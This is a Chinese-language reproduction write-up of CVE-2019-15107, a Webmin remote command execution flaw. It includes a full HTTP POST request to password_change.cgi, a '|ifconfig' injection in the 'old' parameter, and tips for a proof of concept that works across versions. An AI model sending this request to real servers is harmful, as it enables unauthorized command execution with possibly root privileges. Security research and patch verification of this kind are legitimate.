 ## 前言  

CVE-2019-15107 Webmin <= 1.920 远程命令执行漏洞,漏洞需要开启密码重置功能。

## 漏洞简介  

CVE-2019-15107 Webmin <= 1.920 远程命令执行漏洞，可以直接执行系统命令

## 漏洞危害  

直接执行命令，如果webmin权限大可以直接获取到系统最高权限

## 影响范围  

### 产品  

> Webmin

### 版本  

> Webmin <= 1.920 版本  

### 组件  

> Webmin  

## 漏洞复现  

首先开启密码重置功能:
在控制界面 https://ip:10000/webmin/edit_session.cgi?xnavigation=1

![password](img/43.jpeg)

等待webmin重启，配置生效。查看webmin的配置文件，可以发现`passwd_mode`的值已经从`0`变为了`2`。
```shell
# cat /etc/webmin/miniserv.conf
...
passwd_mode=2
...
```
![password](img/44.jpeg)

数据库包如下：

```raw
POST /password_change.cgi HTTP/1.1
Host: yourip:10000
Connection: close
Content-Length: 63
Cache-Control: max-age=0
Origin: https://yourip:10000
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: same-origin
Referer: https://yourip:10000/session_login.cgi
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: redirect=1; testing=1; sessiontest=1; sid=x

user=root&pam=1&expired=2&old=buyaoxiedaopocli&new1=buyaoxiedaopocli&new2=buyaoxiedaopocli
```

在参数`old`后加上`|ifconfig` 执行`ifconfig`命令。

![password](img/45.jpeg)

如果user不存在，同样能执行命令

![password](img/46.png)

> PS: 1.910需要传入的user不存在，否则不能执行命令。不知道更老的版本会如何。建议为了全版本使用，POC最好传入一个不存在的user。

